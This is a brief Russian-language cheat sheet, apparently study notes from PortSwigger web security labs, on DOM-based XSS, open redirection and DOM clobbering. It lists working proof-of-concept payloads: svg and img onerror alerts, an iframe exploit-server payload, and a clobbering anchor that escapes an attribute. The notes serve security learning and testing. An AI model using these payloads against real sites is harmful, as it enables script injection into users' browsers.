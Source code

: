 # DOM-Based XSS
1. Проверить закрытие тегов: `"><svg onload=alert(1)>`
2. Проверить input-ы: `<img src=1 onerror=alert(1)>`
3. Проверить qvery параметры: `?name='<img src=1 onerror=alert(1)>//`
4. Приложение может ожидать от пользователя ввод после `#`, тогда можно использовать exploit сервер с телом: `<iframe src="https://<site>/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`
5. Разработчик мог не обработать пользовательский ввод циклом: `<><><img src=1 onerror=alert(1)>`
## Open-redirection XSS

1. Может существовать возможность перенаправить пользователя на свой уязвимый ресурс, допусти через query параметр: `../?url=<my.site>`
# DOM clobbering
https://portswigger.net/web-security/dom-based/dom-clobbering
Если несколько html тегов имеют одинаковые атрибуты, то в window создаётся ключ-коллекция с этим атрибутом. Значит если мы создадим тег с атрибутом, который уже используется в скриптах самим приложением, то сможем проэксплуатировать уязвимость:
пусть существует js функционал:
```javascript 
...
let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
let avatarImgHTML = '<img class="avatar" src="' + (comment.avatar ? escapeHTML(comment.avatar) : defaultAvatar.avatar) + '">';
...
```
тогда можно создать из пользовательского ввода следующий тег, который заменит собой переменную **`defaultAvatar`**:
```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```
где **cid** - спeцсимвол для частного случая, когда можно избежать кодировки ", который оставил разработчик. 
#### Стандартный пэйлоад:
```html
<a id=test1 name=url href=https://portswigger.com><a id=test1>
```